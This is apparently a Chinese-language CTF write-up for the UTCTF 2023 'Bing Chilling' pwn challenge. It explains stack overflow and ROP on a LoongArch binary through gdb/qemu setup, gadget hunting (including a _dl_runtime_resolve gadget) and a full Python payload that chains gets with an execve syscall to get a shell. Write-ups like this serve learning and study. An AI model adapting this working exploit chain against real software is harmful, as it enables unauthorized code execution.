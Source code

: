 ```yaml
---
layout: post
title: UTCTF 2023 Bing Chilling
date: 2023-04-04 13:19:34
tags: pwn loongarch rop
---
```


Loongarch ROP

比赛时发现了这是LoongArch的ROP，由于不太会找gadget就放弃了。赛后看大佬的writeup，发现只要找到一个关键的来自_dl_runtime_resolve的gadget，就可以万事大吉了。

复现参考：[CTFtime.org / UTCTF 2023 / Bing Chilling / Writeup](https://ctftime.org/writeup/36285)

---

## 环境准备

我们都知道 Linux 下的可执行文件是 ELF 格式，但 ELF 也分架构，比如这个 binary 就是 Loongarch 龙架构。

```sh
$ file hello
hello: ELF 64-bit LSB executable, *unknown arch 0x102* version 1 (SYSV), statically linked, for GNU/Linux 5.19.0, with debug_info, not stripped
```

可以看到其 ELF Header 中的 arch 字段值为 0x102，是一个 file 未知的架构。在网上查询 0x102，可以知道这是龙架构。为了调试这个 binary，我们需要一台龙架构真机……或者是一个龙芯模拟器。此外，我们还需要能够静态分析这个 binary 的工具，比如 objdump。

著名的模拟器 qemu 在其 7.1.0 版本引入了对龙架构模拟的支持，因此我们安装下最新的 qemu 就行了。
从 [Releases · loongson/build-tools (github.com)](https://github.com/loongson/build-tools/releases/) 这里可以找到一些龙架构的交叉编译（跨架构生成 ELF）的工具，其中就包括龙架构的 objdump。
最后，为了动态调试，可能还需要一个支持龙架构的 gdb。gdb 在 13.1 版本引入了对龙架构调试的支持，可以通过下面的指令来在 /opt/gdb 目录下编译支持龙架构的 gdb（中途遇到报错多半是缺少某个库，可以上网搜）（执行指令的位置无所谓，不过在 root 的目录下需要加很多 sudo ……）：

```sh
wget https://ftp.gnu.org/gnu/gdb/gdb-13.1.tar.xz
tar xf gdb-13.1.tar.xz
cd gdb-13.1
mkdir build
cd build
../configure --target=loongarch64-unknown-linux-gnu --prefix=/opt/gdb
make
sudo make install
```

编译得到的 gdb 位于 `/opt/gdb/bin/loongarch64-unknown-linux-gnu-gdb`

## 程序分析

学过 mips 和 riscv 的朋友会对 LoongArch 的指令集感到比较熟悉，LoongArch 也是 risc。它的寄存器昵称和 riscv 的几乎一模一样，比如存放 return address 的 ra。
从 pwner 的视角来看，龙架构：

- 系统调用的参数依次存放在 **a0**, **a1**, **a2**, **a3**, **a4**, ……
- 系统调用编号存放在：**a7**
- 返回地址存放在 **ra** 寄存器中
	返回指令是 `jirl $zero, $ra, 0`  
- `bl` 用作 call，先把返回地址存到 **ra** 然后跳转到目标地址
- syscall 指令就是 **syscall**

使用 cross tool 中的 objdump 可以查看 binary 的汇编，我们直接看 main 函数：
```asm
0000000120000520 <main>:
   120000520:	02fec063 	addi.d      	$sp, $sp, -80(0xfb0)
   120000524:	29c12061 	st.d        	$ra, $sp, 72(0x48)
   120000528:	29c10076 	st.d        	$fp, $sp, 64(0x40)
   12000052c:	02c14076 	addi.d      	$fp, $sp, 80(0x50)
   120000530:	1a000b0c 	pcalau12i   	$t0, 88(0x58)
   120000534:	02e46184 	addi.d      	$a0, $t0, -1768(0x918)
   120000538:	54bf0000 	bl          	48896(0xbf00)	# 12000c438 <_IO_puts>
   12000053c:	02fec2cc 	addi.d      	$t0, $fp, -80(0xfb0)
   120000540:	00150184 	move        	$a0, $t0
   120000544:	54bb5400 	bl          	47956(0xbb54)	# 12000c098 <_IO_gets>
   120000548:	02fec2cc 	addi.d      	$t0, $fp, -80(0xfb0)
   12000054c:	00150185 	move        	$a1, $t0
   120000550:	1a000b0c 	pcalau12i   	$t0, 88(0x58)
   120000554:	02e4e184 	addi.d      	$a0, $t0, -1736(0x938)
   120000558:	54651800 	bl          	25880(0x6518)	# 120006a70 <_IO_printf>
   12000055c:	0015000c 	move        	$t0, $zero
   120000560:	00150184 	move        	$a0, $t0
   120000564:	28c12061 	ld.d        	$ra, $sp, 72(0x48)
   120000568:	28c10076 	ld.d        	$fp, $sp, 64(0x40)
   12000056c:	02c14063 	addi.d      	$sp, $sp, 80(0x50)
   120000570:	4c000020 	jirl        	$zero, $ra, 0
```

从中可以观察到很多经典的过程调用行为，比如开始时拓展栈空间、存放返回地址等信息；结束时取回返回地址、恢复栈空间。毕竟栈这种 LIFO 的结构对于过程调用还是非常根本的。
注意到，main 函数会依次调用 puts、**gets** 和 printf。有 gets 不就可以直接栈溢出了吗？
使用 `qemu-loongarch64 hello`，然后输入一大段 A，果然 qemu 报了 segmentation fault。

接下来的问题就是，我们已经能够控制栈了，那么 LoongArch 的栈上可以 ROP 吗？答案是可以。虽然 LoongArch 有专门用来存返回地址的 ra 寄存器，但很多过程仍然会把返回地址存到栈上，这是因为这些过程自己也需要调用其他的过程。因此，LoongArch 过程的结束既有从栈上读取返回地址，又有返回指令，可以进行 ROP。

## 漏洞利用


我们的目标是 get shell，但这个 hello 虽然是静态链接的，却没有 system 函数。不过，我们可以直接找到 syscall gadget：

```asm
   120013e4c:	002b0000 	syscall     	0x0
   120013e50:	4c000020 	jirl        	$zero, $ra, 0
```

至于 LoongArch Linux 的 Syscall Table，我好像只在 [[6/14, LoongArch] Linux Syscall Interface - Patchwork (ozlabs. Org)](https://patchwork.ozlabs.org/project/glibc/patch/CAKjxQHnS02h5Vo3Pm-+ESmqYqZ6FDY7ykty4KROBeondHVfmOQ@mail.gmail.com/) 有看到，其中 execve 是 221。
只要能够控制 \$a0 指向一个 "/bin/sh" 的字符串，\$a1 和 \$a2 控制为 0，就可以 get shell。我们需要为此找到合适的 gadget。

从本文参考的文章那边找到了一个非常牛逼的 gadget，来自 \_dl_runtime_resolve 函数：

```asm
   120048098:   0015008d        move            $t1, $a0
   12004809c:   28c12061        ld.d            $ra, $sp, 72(0x48)
   1200480a0:   28c02064        ld.d            $a0, $sp, 8(0x8)
   1200480a4:   28c04065        ld.d            $a1, $sp, 16(0x10)
   1200480a8:   28c06066        ld.d            $a2, $sp, 24(0x18)
   1200480ac:   28c08067        ld.d            $a3, $sp, 32(0x20)
   1200480b0:   28c0a068        ld.d            $a4, $sp, 40(0x28)
   1200480b4:   28c0c069        ld.d            $a5, $sp, 48(0x30)
   1200480b8:   28c0e06a        ld.d            $a6, $sp, 56(0x38)
   1200480bc:   28c1006b        ld.d            $a7, $sp, 64(0x40)
   1200480c0:   2b814060        fld.d           $fa0, $sp, 80(0x50)
   1200480c4:   2b816061        fld.d           $fa1, $sp, 88(0x58)
   1200480c8:   2b818062        fld.d           $fa2, $sp, 96(0x60)
   1200480cc:   2b81a063        fld.d           $fa3, $sp, 104(0x68)
   1200480d0:   2b81c064        fld.d           $fa4, $sp, 112(0x70)
   1200480d4:   2b81e065        fld.d           $fa5, $sp, 120(0x78)
   1200480d8:   2b820066        fld.d           $fa6, $sp, 128(0x80)
   1200480dc:   2b822067        fld.d           $fa7, $sp, 136(0x88)
   1200480e0:   02c24063        addi.d          $sp, $sp, 144(0x90)
   1200480e4:   4c0001a0        jirl            $zero, $t1, 0
```

似乎不管在哪个架构中，\_dl_runtime_resolve 函数的功能都是保存寄存器的值到栈中，然后调用\_dl_fixup执行具体的功能，然后从栈中恢复寄存器。因此以后要是遇到了什么riscv pwn，也可以使用这个gadget。
这个 gadget 能够控制所有参数寄存器，但需要提前把返回地址存在 \$a0 中。所以继续手工找 gadget：

```asm
   12000bc54:   28c0a061        ld.d            $ra, $sp, 40(0x28)
   12000bc58:   28c08077        ld.d            $s0, $sp, 32(0x20)
   12000bc5c:   28c04079        ld.d            $s2, $sp, 16(0x10)
   12000bc60:   28c0207a        ld.d            $s3, $sp, 8(0x8)
   12000bc64:   00150304        move            $a0, $s1
   12000bc68:   28c06078        ld.d            $s1, $sp, 24(0x18)
   12000bc6c:   02c0c063        addi.d          $sp, $sp, 48(0x30)
   12000bc70:   4c000020        jirl            $zero, $ra, 0
```

这个 gadget 可以把 \$s1 移到 \$a0 ，那就继续找可以改 \$s1 的 gadget：

```asm
   12000be90:   28c06061        ld.d            $ra, $sp, 24(0x18)
   12000be94:   0012e004        sltu            $a0, $zero, $s1
   12000be98:   28c04077        ld.d            $s0, $sp, 16(0x10)
   12000be9c:   28c02078        ld.d            $s1, $sp, 8(0x8)
   12000bea0:   00119004        sub.d           $a0, $zero, $a0
   12000bea4:   02c08063        addi.d          $sp, $sp, 32(0x20)
   12000bea8:   4c000020        jirl            $zero, $ra, 0
```

有了这三个 gadget，齐活了！我们拥有了执行任意函数、任意 syscall 的能力。
接下来就是 exp 了，思路是首先把 "/bin/sh"读入到已知地址（程序关闭了 PIE），比如 bss 段，然后用 syscall gadget 来 get shell。前者我们可以通过 return to gets 来实现。

```python
g1 = 0x12000bc54
g2 = 0x12000be90
g3 = 0x120048098
sys = 0x120013e4c
buf_addr = 0x120087000
gets_addr = 0x12000c098


def pwn():
    payload = b"A" * 72
    payload += flat([
        g2,
        0, gets_addr, 0
    ])
    payload += flat([
        g1,
        0, 0, 0, 0, 0,
    ])
    payload += flat([
        g3,
        0, buf_addr, 0, 0, 0, 0, 0, 0, 0,
        g2,
        0, 0, 0, 0, 0, 0, 0, 0,
    ])
    payload += flat([
        0, sys, 0
    ])
    payload += flat([
        g1,
        0, 0, 0, 0, 0,
    ])
    payload += flat([
        g3,
        0, buf_addr, 0, 0, 0, 0, 0, 0, 221,
        g2,
        0, 0, 0, 0, 0, 0, 0, 0,
    ])

    io.sendline(payload)
    io.sendline("/bin/sh\x00")
    io.interactive()
```
